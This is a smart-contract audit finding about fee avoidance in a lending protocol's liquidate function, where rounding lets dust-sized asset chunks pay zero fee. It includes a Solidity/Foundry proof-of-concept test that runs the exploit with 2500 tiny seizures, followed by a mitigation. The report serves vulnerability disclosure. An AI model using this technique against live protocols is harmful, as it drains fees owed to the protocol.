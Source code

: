 Shambolic Cobalt Copperhead

High

# Liquidators could avoid paying fee to protocol by splitting asset received into multiple small chunks

### Summary

In order to liquidate a position, liquidators will have to pass two arrays into liquidate function: debt array for debts they want to repay, and asset array for assets they want to seize from that position.

The problem is that input asset array allows liquidators to receive same asset multiple times, and that there is no minimum amount for asset received. Liquidators could avoid paying fee by splitting the total amount of seized asset into a lot of very small chunks ( pushing a lot of elements into asset array, each of which only specifies a very small amount of asset to receive). 

### Root Cause

- In `PositionManager.sol:476` fee could become 0 if assetData[i].amt is small enough to make the product of `liquidationFee` and `assetData[i].amt` less than 1e18.

### Internal pre-conditions

1. Target position is liquidable.

### External pre-conditions

N/A

### Attack Path

1. Liquidator makes a very long asset array; each element of that array only seize a dust amount of asset.
2. Liquidator calls liquidate function.

### Impact

Loss of funds for protocol.

### Code Snippet
https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/0b472f4bffdb2c7432a5d21f1636139cc01561a5/protocol-v2/src/PositionManager.sol#L476

### PoC

```solidity
import { Action, Operation, AssetData, DebtData } from "src/PositionManager.sol";
function testLiquidationSmallChunks() public {
        asset3.mint(positionOwner, 10000);

        vm.startPrank(positionOwner);
        Action[] memory actions = new Action[](3);

        actions[0] = addToken(address(asset3));
        //PositionManager(positionManager).processBatch(position, actions);

        actions[1] = deposit(address(asset3), 10000);
        asset3.approve(address(positionManager), 10000);
        bytes memory data = abi.encode(linearRatePool, 750);

        actions[2] = Action({ op: Operation.Borrow, data: data });
        PositionManager(positionManager).processBatch(position, actions);
       
        vm.stopPrank();
        vm.startPrank(protocolOwner);
        riskEngine.setOracle(address(asset3), address(asset2Oracle)); //Decrease asset 3 price so that the position is liquidable
        vm.stopPrank();

        uint256 newFee = 0.2e18; // fee set to 20%
        vm.prank(positionManager.owner());
        positionManager.setLiquidationFee(newFee);
        assertEq(positionManager.liquidationFee(), newFee, "Liquidation fee should be updated");

        asset1.mint(user, 1000);
        
        vm.startPrank(user);
        asset1.approve(address(positionManager), 750);
        AssetData[] memory assetData = new AssetData[](2500);
        for (uint i; i < 2500; i++) {
            assetData[i].asset = address(asset3);
            assetData[i].amt = 4;
        }
        DebtData[] memory debtData = new DebtData[](1);
        debtData[0].poolId = linearRatePool;
        debtData[0].amt = 750;
        positionManager.liquidate(position, debtData, assetData);

        assertEq(asset3.balanceOf(positionManager.owner()), 0); //position owner won't get any fee at the end 
        vm.stopPrank();

    }

```

### Mitigation

Consider enforcing a minimum liquidation amount 